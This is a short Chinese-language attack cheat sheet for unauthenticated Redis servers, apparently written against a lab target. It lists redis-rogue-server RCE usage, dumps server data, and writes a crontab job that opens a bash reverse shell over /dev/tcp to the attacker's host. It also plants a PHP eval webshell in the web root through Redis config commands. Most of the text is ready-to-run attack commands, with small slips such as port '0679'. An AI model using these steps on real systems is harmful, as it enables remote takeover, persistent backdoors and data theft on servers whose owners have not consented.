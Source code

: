 # redis-rogue-server rce

当 `redis` 可以远程访问并且Redis <= 5.0.5

1. 访问:0679端口。 查看是否可以远程访问

2. `redis-rogue-server.py -h`

 find / -name *redis* 找找绝对路径

3. 使用

```
python3 redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
                                远程主机            本地主机


# 开启监听
# nc相应端口
 nc -lvvp 9999

```
Redis未授权访问验证、获取敏感信息

　　Nmap扫描后发现主机的6379端口对外开放，就可以用本地Redis远程连接服务器（redis在开放往外网的情况下，默认配置下是空口令，端口为6379）连接后可以获取Redis敏感数据。

这里我使用另一台安装了redis的centos远程连接测试

```bash
./redis-cli   -h   192.168.242.134.

redis 192.168.242.134:6379> info # 查看敏感信息

```

### 利用crontab反弹shell

>>直接向靶机的Crontab写入任务计划，反弹shell回来
```
redis 192.168.242.134:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.242.131/888 0>&1\n"
redis 192.168.242.134:6379> config set dir /var/spool/cron/
redis 192.168.242.134:6379> config set dbfilename root
redis 192.168.242.134:6379> save
```

然后在攻击机（192.168.242.131）上启动 nc 监听 888端口，等待反弹shell。这过程需要一些时间。
```
nc -lvnp 888
```

### 写入webshell

当自己的redis权限不高时，可以向web里写入webshell，但需要对方有web服务且有写入权限。假设靶机里面存在WEB服务并且目录在 /var/www/ 
```
redis 192.168.242.134:6379>config set dir /var/www/a

redis 192.168.242.134:6379>config set xxx "\n\n\n<?php @eval($_POST['c']);?>\n\n\n"

redis 192.168.242.134:6379>config set dbfilename webshell.php

redis 192.168.242.134:6379>save
```
